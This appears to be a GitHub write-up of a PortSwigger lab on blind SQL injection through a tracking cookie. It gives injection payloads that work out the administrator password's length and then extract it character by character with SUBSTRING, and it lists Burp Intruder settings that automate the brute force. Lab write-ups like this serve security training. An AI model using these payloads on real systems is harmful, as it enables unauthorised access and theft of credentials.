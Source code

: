 ```SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'``

Find the length password of administrator

```SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a```

In particular, the subquery (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1) is attempting to retrieve the username of the administrator account whose password is longer than one character. If such an account exists in the database, the subquery will return the value "administrator".

The outer part of the string AND (SELECT username FROM users WHERE username='administrator' AND LENGTH(password)>1)='administrator' is then attempting to compare this value to the string literal 'administrator'. If the subquery returns the value 'administrator', then the entire expression will evaluate to true.

<img width="1398" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/c83ae682-b8a9-495b-a8b5-2683dcd548c3">


This confirms that the password is greater than 1

If we send the value as 50 ie ' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>50)='a , we dont get any welcome message which means its not > 50 characters.

<img width="1425" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/f3d84b4b-caa2-415d-ad8f-7a399bd80e8a">

Automate this ->

Send request to Intruder
Add the password length part [> 1]
Attack type - SNIPER
Payload type - Numbers
Give number range from 1-50
There is a difference in length at number 20, means that while checking if length(password) > 20 it FAILS.

So the total length of password is 20.

Bruteforce the 20 character length password
Use the same query as above bu thios time we use the SUBSTRING method (SELECT SUBSTRING(password,1,1) to get each letter of the password and loop through it to check if 1st letter is =a/b/c ... & so on.

```SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator' AND LENGTH(password)>1 )='a'--```

From the above command we take the 1st character of the password & check if it is = 'a'. Check until the condition returns TRUE. Meaning the first character of password = letter/number at the right.

Automate this -

Attack type - Cluster bomb
Payload 1 - length checking part [>1]
Payload 2 - character checking part ['a'--]
Payload 1 type - Numbers [range 1-20]
Payload 2 type - Bruteforcer [min & max length = 1]
In the filter settings, add the search item as Welcome
<img width="1209" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/b764a28c-d289-42a6-a623-d60a0d09b396">


<img width="1429" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/d959439b-576b-46ef-a5f7-7f18208097ac">
```